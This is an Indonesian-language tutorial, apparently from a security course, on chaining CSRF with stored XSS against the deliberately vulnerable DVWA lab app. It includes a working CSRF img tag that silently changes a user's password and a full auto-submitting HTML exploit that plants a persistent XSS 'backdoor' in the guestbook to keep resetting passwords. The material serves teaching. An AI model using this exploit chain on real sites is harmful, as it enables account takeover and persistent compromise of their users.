 # Exploit Chain (CSRF + XSS)

Serangan tidak hanya berbicara tentang satu celah yang di eksploitasi. Jika kita menemukan beberapa celah pada aplikasi kita bisa mengkombinasikannya untuk mendapatkan vektor serangan yang beragam.

Sebagai contoh pada pertemuan sebelumnya kita sudah tahu bahwa DVWA memiliki celah sebagai berikut :

## XSS Stored

Sedangkan untuk CSRF hampir semua halaman DVWA tidak mencegah adanya serangan CSRF. Termasuk pada URL [http://vuln.cilsy.id:31333/vulnerabilities/csrf/](http://vuln.cilsy.id:31333/vulnerabilities/csrf/) yang merupakan halaman untuk mengganti password login. Karena tidak ada form untuk validasi password lama tentu ini akan rentan terhadap celah CSRF.

![](https://lh4.googleusercontent.com/XoPudeZhkm4GL8csNZb428xJcrl8OxTYhgKeRX3LTbki5hUhQC0-BdwIn-PgJPmX8ewjetl6no8KxxjMTdOlglUcmMzdIdUZRVNUFOztXZ-Rb3KoGQtu3_S3ybX2vzhgyoySAC4fEI9phmABdltLnaLJ7yI)

Gambar: Penggantian password DVWA yang tertangkap dengan Burp

Dari gambar diatas terlihat jelas bahwa HTTP request hanya menggunakan method GET. Artinya cukup menggunakan tag IMG kita sudah bisa mengeksploitasinya.  Berikut contoh CSRF exploit yang sesuai dengan gambar diatas :

```html
<img src="http://vuln.cilsy.id:31333/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change"/>
```

Ketika user memuat element IMG diatas web browser akan mengakses URL tersebut. Dan ternyata URL tersebut untuk mengganti password. Alhasil pengguna meminta password baru tanpa dia sadari.

## **Proof Of Concept**

Nah pada materi diatas kita sudah bisa menemukan kerentanan CSRF pada DVWA selanjutnya kita akan menggunakan attack chain untuk mengkombinasikan XSS dan CSRF. Berikut konsep serangan yang akan kita lakukan :

- Penyerang tidak memiliki akses langsung ke dalam DVWA
- Untuk mendapatkan akses, penyerang harus mengeksploitasi CSRF untuk mengganti password dan memanfaatkan XSS
- Untuk secara langsung menanamkan backdoor XSS, pada halaman exploit CSRF tidak hanya mengganti password tapi juga mengirimkan XSS payload sebagai backdoor ke halaman guestbook
- Pada nomor 3 backdoor payload XSS yang diberikan merupakan exploit CSRF untuk mengganti password
- Sehingga diharapkan ketika user berhasil mengatur password ulang untuk mengembalikan akses dari penyerang, setiap user membuka guestbook maka password akan diganti sehingga penyerang bisa mendapatkan akses login kembali.

Dari konsep serangan diatas berikut exploitnya :

```html
<html>

<head>
  <title>GuestBook Exploit</title>
</head>

<body>
  <iframe style="display:none" name="csrf-frame"></iframe>
  <form id="idForm" action="http://vuln.cilsy.id:31333/vulnerabilities/xss_s/" target="csrf-frame" method="POST">
  	<input type="hidden" name="txtName" value="XSS Backdoor" />
  	<input type="hidden" name="mtxMessage" value="CSRF Exploit" />
  	<input type="hidden" name="btnSign" value="Sign Guestbook" />
  	<input type="submit" style="visibility:hidden" />
  </form>
  <script>
  	var csrf_set_password = '<img src="http://vuln.cilsy.id:31333/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change"/>';
  	document.getElementsByName("mtxMessage")[0].value = csrf_set_password;
  	document.getElementById("idForm").submit();
  	document.write(csrf_set_password);
  	alert("Exploit sudah selesai dijalankan!")
  </script>
</body>
```